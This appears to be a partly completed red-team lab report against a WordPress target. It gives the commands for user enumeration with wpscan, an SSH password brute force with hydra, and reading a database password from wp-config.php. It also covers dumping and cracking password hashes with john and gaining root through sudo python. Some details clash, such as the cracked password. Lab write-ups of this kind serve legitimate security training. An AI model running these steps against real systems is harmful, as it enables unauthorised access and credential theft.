






# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
  
```


This scan identifies the services below as potential points of entry:
- Target 1
  - List of
  - Exposed Services
  22/tcp open ssh
  80/tcp open http
  111/tcp open rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities
  1. Wordpress User Enumeration
  2. Weak User Password
  3. Directory Exploration (mysql database password discovered)
  4. Unsalted User Password Hash (JohnTheRipper)

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
  **Flag1: b9bbcb33ellb80be759c4e844862482d**
  
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      WPSCAN Enumeration / HydraBruteForce
      - _TODO: Include the command run_
        - `$ wpscan --url http://192.168.1.110 --enumerate u`
          -`hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh`
          
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www/html`
        - `ls -l`
        - `nano service.html`

  - `flag2.txt`: _TODO: Insert `flag2.txt` hash value_
  **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
  
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      Directory Exploration
      - _TODO: Include the command run_
      - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www`
        - `ls`
        - `cat flag2.txt`
  

  - `flag3.txt`: _TODO: Insert `flag3.txt` hash value_  
  **Flag3: afc01ab56b50591e7dccf93122770cd2**
  
      - _TODO: Identify the exploit used_
      Directory Exploration -> Database Access -> Database Exploration
      - _TODO: Include the command run_
            - found the wp-config.php file containing the database password
            - `mysql --host=localhost --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

  - `flag4.txt`: _TODO: Insert `flag4.txt` hash value_
  **Flag4: 715dea6c055b9fe3337544932f2941ce**
  
      - _TODO: Identify the exploit used_
      JohnTheRipper / sudo privilege abuse
      - _TODO: Include the command run_
        - `select * from wp_users INTO OUTFILE '/home/michael/wp_hashes.txt';`
        - `exit`
          - `cp wp_hashes.txt wp_hashes_cp.txt` to change file ownership from root to michael
          - `chmod 666 wp_hashes_cp.txt`
          - exit ssh to kali machine
          - `scp -P 22 michael@192.168.1.110:/home/michael/wp_hashes_cp.txt /root`
          - `john wp_hashes_cp.txt`
          - cracked - username: steven -> password: pink4 
        - `ssh steven@192.168.1.110`
        - `pw:pink84`
        - `sudo -l`
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
        - now have root access
        - `cd /root`
        - `ls`
        - `cat flag4.txt`